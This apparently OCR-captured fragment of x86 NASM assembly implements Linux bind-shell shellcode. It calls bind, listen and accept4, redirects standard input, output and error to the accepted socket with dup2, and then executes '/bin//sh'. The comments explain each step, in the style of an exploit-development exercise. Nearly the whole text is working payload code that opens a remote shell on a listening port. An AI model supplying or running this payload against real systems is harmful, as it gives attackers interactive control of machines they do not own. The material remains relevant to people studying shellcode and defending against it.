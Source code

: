 ```nasm
	mov dl, 16	; #define __SOCK_SIZE__   16              /* sizeof(struct sockaddr)      */ --> in /usr/include/linux/in.h
	mov ax, 361	; bind syscall 
	
	int 0x80	; execute bind


	xor ecx, ecx	; remove esp pointer from ecx
	mov ax, 363	; listen syscall

	int 0x80	; listen for connections

	xor esi, esi	; clear out esi to use as a pointer
	xor edx, edx	; clear out edx
	mov ax, 364	; syscall accept4 (since accept doesn't return any value, and with no flag set accept4 acts identical to accept)
	
	int 0x80	; executing awaiting connections


	mov ebx, eax	; preservation from accept syscall
	mov cl, 3	; set all 3 file descriptors (standard in, out, and error)

	call_dup:
	
	xor eax, eax
	mov al, 63	; syscall dup2
	dec ecx
	
	int 0x80	; dup2 stdin
	
	inc ecx
	loop call_dup


	xor ecx, ecx
	push ecx	; zero out top of stack
	push  0x68732f2f ; push the end of "/bin//sh"
	push  0x6e69622f ; push the beginning of "/bin//sh", must do it backwards because of how higher memory goes on top of stack first

	mov ebx, esp	; mov pointer to /bin//sh into ebx
	mov al, 11	; execve syscall

	int 0x80	; execute /bin//sh "shell"


	xor eax, eax
	mov al, 1	; syscall exit
	
	int 0x80	; exit program
```
